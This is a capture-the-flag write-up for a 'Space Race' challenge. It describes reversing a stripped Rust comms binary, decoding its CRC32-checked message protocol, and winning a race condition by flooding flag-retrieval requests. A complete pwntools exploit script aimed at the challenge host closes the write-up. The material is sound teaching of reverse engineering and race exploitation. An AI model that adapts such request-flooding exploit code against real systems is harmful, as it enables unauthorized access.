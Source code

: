 # Challenge Overview
The Space Race challenge required finding a flaw in the flight control software that communicated with the a comms service binary provided only the comms service binary. The binary provided was a 2MB+ stripped ELF64 file.

# Analysis
Strings in the provided binary made it clear that the binary was written in rust. As such, it was unlikely that the flaw was a memory corruption, and given the name of the program, we guessed that a race condition of some sort was the goal. This binary is large so we started with looking at where data is processed from "recv" functions along with strings.

## Static Analysis
Strings are not null terminated in the rust binary making, instead stored as a count and pointer, with the strings occuring one after another making it harder to analyze the individual ones. Looking for flag showed several strings related to a flag process, showing that there are options to start, stop, and request the flag from the flag process. Further the start and stop required an authorization key. Tracing what the value was for the authorization appeared to show that it came from a configuration file, so we could not grab it from the binary.

We created structures in IDA Pro to be able to follow buffers and strings in the rust program, as we were not terribly famililar with the rust API that would be represented by the compiled code. We also looked at the places where recv was called to see how our data was processed. One of the location added to a buffer and was located close the same function that appeared to parse and use the data before accessing the flag process. Tracing functions and the use of the recv'ed buffer showed two helpful points:
1. The data was immediately passed into a CRC32 function that checked the data against the last four bytes of the message
2. One built a message four output that did a lot of bit twiddling. We decided to use this information to attempt to parse the messages received from the service.

The data received was processed and compared to various task ids to determine if it was flag task, TLM taks, housekeeping task, etc. We did not get as far as determining the IDs, theorizing that they were pulled from the config file.

## Dynamic Analysis
We wrote a script to connect to the service and attempt to parse the received data based on the bit twiddling we saw in the binary. We were then able parse the six byte header consisting of a message type, some sequence number, length of payload minus 3, flags, followed by the payload and finally the CRC32. We were confident we were able to do this correctly once the CRC32 and length matched up. This showed that without interaction there were 3 messages message types received:
1. Type 0x6e was received the most, consisting of 50 bytes of binary data we never bothered with decoding
2. Type 0x6a provided a memory and disk usage report in JSON format
3. Type 0x64 was received once and reported FLAG APP FINE

We then attempted to determine the task id we needed to send for a flag task. We started by sending a payload of several \x01 values and using all possible values for the task ID to see if we could get a response, but nothing different was received. After several hours of trying to determine what was wrong (we never bothered actually running the service locally due to needing to determine the config.toml format), we realized a typo in the script was stripping off our header and thus all the CRC32 values were wrong resulting in our message being thrown out. We fixed the issue.... and still had the same problem. After staring at the code for another hour we realized that our length value was wrong as we had included the CRC32 in it and it should not be included. 

Throwing our script again resulted in the type 0x64 returning the string "NOT AUTHORIZED". We remembered seeing this in the binary, and determined that sending a payload with a value of '\x2' would request the flag instead of trying to start/stop the flag service. Updating the script to send this resulted in "FLAG SERVICE NOT AVAILABLE" so we figured we were on the correct path.

Running a couple of times showed that "FLAG APP FINE" message always occurred after the 5th time the 0x6a message was received (sequence number 4). We figured we would try to send the `Retrieve Flag` request at that point, and send a lot of them to try to win a potential race. To our great surprise, this worked the first time! One of the responses received after all of the requests contained the flag, indicating that we successfully sent the request while the service was polling the flag service, winning the race.

## Lessons Learned
We put off running the service locally due to needing
1. A valid configuration file
2. A flag service running separately

but in retrospect this probably would have saved time in debugging our solution.

# Final Solution
```python
from pwn import *
import zlib
import binascii

def send_data(c, typeCode, seq, flags, payload):
    bits1_3 = (typeCode >> 8) & 0x3
    bit4 = (flags >> 16) & 0x8
    bit5 = (flags >> 8) & 0x10
    bits6_8 = (flags & 7) << 5
    bits17_22 = (seq >> 8) & 0x3f
    bits23_24 = (flags >> 18)
    hdr = p8(bits1_3 | bit4 | bit5 | bits6_8) + p8(typeCode & 0xff) + p8(bits23_24 | bits17_22) + p8(seq & 0xff)

    # print 'Encoded %x %x %x as %s' % (typeCode, seq, flags, binascii.hexlify(hdr))
    data = hdr + p16(len(payload) + 3, endian='big') + payload
    msg = data + p32(zlib.crc32(data), endian='big', sign='signed')
    
    c.send(msg)

def read_entry(c):
    header = c.recv(6)
    size = u16(header[4:], endian='big') - 3
    bits = u8(header[0])
    first_bits = bits&3
    bit4 = bits&8
    bit5 = bits&0x10
    bits6_8 = (bits&0xe0) >> 5
    bits9_16 = u8(header[1])
    bits17_22 = u8(header[2]) & 0x3f
    bits23_24 = u8(header[2]) >> 6
    bits25_32 = u8(header[3])
    typeId = bits9_16 | (first_bits << 8)
    seqno = bits25_32 | (bits17_22 << 8)
    flags = bits6_8 | (bit5 << 8) | (bit4 << 16) | (bits23_24 << 24)

    print ('Decoded header %x %x %x from %s' % (typeId, seqno, flags, binascii.hexlify(header[:4])))

    print ("Decoded size 0x%x" % (size))

    payload = c.recv(size)
    print 'Payload:'
    print repr(payload)
    #print binascii.hexlify(payload)
    crc32 = c.recv(4)
    calculated = zlib.crc32(header + payload)
    received = u32(crc32, endian='big', sign='signed')
    return (calculated == received, payload, typeId, seqno, flags)

conn = remote('spacerace.satellitesabove.me', 5063)
print conn.recvline()
conn.sendline('ticket{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}')
real = conn.recvline()
conn.close()

c2 = remote(real[13:].split(':')[0], int(real.split(':')[1]))

print "Connected to service"

for test in range(100):
  status, payload, typeId, seqno, flags = read_entry(c2)
  # Service should be up after this...
  if seqno == 4 and typeId == 0x6a:
  #    print 'Sending test'

    # 64 is the flag related stuff...
    # I believe payload 0 = start, 1 = stop, 2 = retrieve
    
    # Spam it hard
    for i in range(1000):
      send_data(c2, 0x64, 0, 0x3000000, '\x02'*10)

c2.close()
```
